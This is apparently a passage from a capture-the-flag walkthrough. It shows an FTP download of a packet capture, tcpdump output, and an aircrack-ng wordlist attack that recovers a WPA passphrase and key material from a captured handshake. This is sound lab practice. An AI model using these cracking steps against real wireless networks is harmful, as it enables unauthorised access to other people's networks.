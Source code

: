 hmmm

ah ha may need binary mode [https://ask.wireshark.org/questions/5924/error-in-pcap-file](https://ask.wireshark.org/questions/5924/error-in-pcap-file)

```bash
ftp> binary
200 Type set to I
ftp> get eg-01.cap
local: eg-01.cap remote: eg-01.cap
200 PORT command successful.
150 Opening I mode data connection for eg-01.cap.
226 Transfer completed for "eg-01.cap".
719128 bytes received in 0.52 secs (1.3264 MB/s)
ftp> 221 Logged out, closing control connection.
```

can i read it this time ?

```bash
root@kali:~/BM# tcpdump -r ./eg-01.cap
reading from file ./eg-01.cap, link-type IEEE802_11 (802.11)
12:41:55.901162 Beacon (EricGordon) [1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 Mbit] ESS CH: 11, PRIVACY
12:41:55.901674 Data IV: 7d Pad 20 KeyID 1
12:41:55.901678 Acknowledgment RA:74:da:38:66:1d:63 (oui Unknown)
12:41:56.357930 Data IV: 7e Pad 20 KeyID 1
12:41:58.130602 Action (02:13:37:a5:52:2e (oui Unknown)): BA DELBA
12:41:58.131082 Acknowledgment RA:02:13:37:a5:52:2e (oui Unknown)
12:42:02.597548 Data IV: 81 Pad 20 KeyID 1
12:42:06.600076 Request-To-Send TA:74:da:38:66:1d:63 (oui Unknown)
12:42:06.601104 Request-To-Send TA:74:da:38:66:1d:63 (oui Unknown)
12:42:06.601134 Clear-To-Send RA:74:da:38:66:1d:63 (oui Unknown)
12:42:06.601134 Acknowledgment RA:74:da:38:66:1d:63 (oui Unknown)
```

looks like it, now from the contents of the file it looks like a wireless auth capture.

```bash
root@kali:~/BM# aircrack-ng -w /usr/share/wordlists/rockyou.txt eg-01.cap
Opening eg-01.cap
Read 13003 packets.

   #  BSSID              ESSID                     Encryption

   1  02:13:37:A5:52:2E  EricGordon                WPA (1 handshake)

Choosing first network as target.

Opening eg-01.cap
Reading packets, please wait...

                                 Aircrack-ng 1.2 rc4

      [00:15:10] 1699628/9822768 keys tested (1651.56 k/s)

      Time left: 1 hour, 22 minutes, 0 seconds                  17.30%

                           KEY FOUND! [ triscuit* ]


      Master Key     : 9E 8B 4F E6 CC 5E E2 4C 46 84 D2 AF 59 4B 21 6D
                       B5 3B 52 84 04 9D D8 D8 83 67 AF 43 DC 60 CE 92

      Transient Key  : 7A FA 82 59 5A 9A 23 6E 8C FB 1D 4B 4D 47 BE 13
                       D7 AC AC 4C 81 0F B5 A2 EE 2D 9F CC 8F 05 D2 82
                       BF F4 4E AE 4E C9 ED EA 31 37 1E E7 29 10 13 92
```